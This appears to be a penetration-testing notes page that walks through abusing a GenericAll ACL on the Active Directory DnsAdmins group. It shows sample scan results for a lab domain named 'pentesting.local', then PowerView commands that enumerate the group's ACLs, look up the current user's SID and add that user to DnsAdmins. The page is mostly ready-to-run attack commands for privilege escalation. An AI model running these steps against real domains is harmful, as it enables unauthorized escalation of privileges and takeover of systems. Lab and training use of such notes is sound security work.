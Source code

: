 | SAMPLE DC RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | DC |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | dc.pentesting.local |

| SAMPLE AD RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | AD |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | ad.pentesting.local |

#### 82 ACL GenericALL on Group

>NEEDS LOCAL ADMIN USER ACCESS

Assuming you have PowerView.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```

![[2._Powershell  Bypass#Execution bypass]]

```
Import-Module .\PowerView.ps1
```

```
Get-DomainGroup -SamAccountName 'DNSAdmins'
```

```
Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs
```

```
Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll')}
```

Copy your current user's Security Identifier value:
```
Get-DomainUser -Name $USER
```

```
Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match '$SID')}
```

Next, we add ourselves to DnsAdmins group:
```
Add-DomainGroupMember -Identity 'DnsAdmins' -Members '$USER'
```
